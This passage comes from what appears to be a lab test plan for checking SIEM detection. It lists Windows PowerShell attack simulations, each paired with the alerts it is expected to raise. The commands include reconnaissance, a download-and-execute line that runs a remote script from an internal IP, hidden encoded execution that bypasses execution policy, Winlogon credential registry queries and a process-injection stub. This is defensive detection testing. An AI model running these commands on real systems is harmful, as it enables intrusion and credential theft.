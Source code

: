 **Expected Detections**:
- ARP anomalies
- SSL/TLS certificate warnings
- Unusual network traffic patterns

---

## Scenario 3: Windows-Specific Attacks

### 3.1 PowerShell-Based Attacks

**Objective**: Test PowerShell execution monitoring
**MITRE Technique**: T1059.001 (PowerShell)

**Note**: These commands should be run on the Windows endpoint or via remote PowerShell if configured.

```powershell
# Basic PowerShell reconnaissance
Get-ComputerInfo
Get-LocalUser
Get-LocalGroup
Get-Process
Get-Service

# Network reconnaissance
Get-NetTCPConnection | Where-Object {$_.State -eq "Listen"}
Get-NetAdapter
Test-NetConnection -ComputerName "10.0.3.100" -Port 1514

# Download and execute (simulation)
Invoke-WebRequest -Uri "http://10.0.3.150/test.txt" -OutFile "C:\temp\test.txt"
Invoke-Expression (New-Object Net.WebClient).DownloadString('http://10.0.3.150/test.ps1')

# PowerShell Empire style commands
powershell.exe -EncodedCommand <base64-encoded-command>
powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -Command "Get-Process"

# Credential harvesting simulation
Get-WmiObject -Class Win32_UserAccount
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

# Process injection simulation
$code = @"
[DllImport("kernel32.dll")]
public static extern IntPtr OpenProcess(uint dwDesiredAccess, bool bInheritHandle, uint dwProcessId);
"@
Add-Type -MemberDefinition $code -Name Win32 -Namespace Win32Functions
```

**Expected Detections**:
- PowerShell execution events (EventID 4103, 4104)
- Suspicious PowerShell activities (rule 100010)
- Encoded command execution
- Web request from PowerShell
